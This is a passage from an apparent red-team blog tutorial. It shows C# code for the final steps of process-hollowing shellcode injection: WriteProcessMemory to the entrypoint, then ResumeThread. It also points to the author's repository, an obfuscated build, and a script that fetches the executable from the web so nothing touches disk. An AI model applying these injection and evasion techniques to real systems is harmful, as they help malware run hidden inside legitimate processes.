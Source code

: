 ```csharp
IntPtr entrypointAddr = (IntPtr)((UInt64)execAddr + rva);
Console.WriteLine("[*] Entrypoint Found: 0x{0}", entrypointAddr.ToString("X"));
```
Now that we have the address we need we can write our shellcode in it using `WriteProcessMemory`. We are going to give it the process handle, the entrypoint address we want to write to, the `buf` which contains the shellcode which we are writing, and the length.
```csharp
IntPtr lpNumberOfBytesWritten = IntPtr.Zero;
WriteProcessMemory(procHandle, entrypointAddr, buf, buf.Length, ref lpNumberOfBytesWritten);
```
Once that is done we can resume the thread that we had suspended at the start using `ResumeThread`. We need to give it a thread handle which we can again retrive from the `PROCESS_INFORMATION` struct.
```csharp
IntPtr threadHandle = proc_info.hThread;
ResumeThread(threadHandle);
```
If everything went well you should have execution of your shellcode. If not look at your code again or you can always contact me and I'll be happy to help.
![Shellcode Popping](/assets/img/shellcode-injections-2/pop.png)

## Code
You can find the code at my github [here](https://github.com/crypt0ace/ProcessHollow/blob/main/Program.cs). I have some other functionalities like sleep, courtesy of [Snovvcrash](https://twitter.com/snovvcrash) whose code is [here](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/process-hollowing). Also made the code look a bit less shitty. There is also a obfucated version present [here](https://github.com/crypt0ace/ProcessHollow/tree/main/Obfuscated%20Version) which was obfuscated using [Rosfuscator](https://github.com/Flangvik/RosFuscator) by [Melvin Langvik](https://twitter.com/flangvik). Works pretty well. I aslo have a powershell script that pulls the executable from the web if not touching disk is your thing. Pretty basic for now. Will be making it like [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) soon.
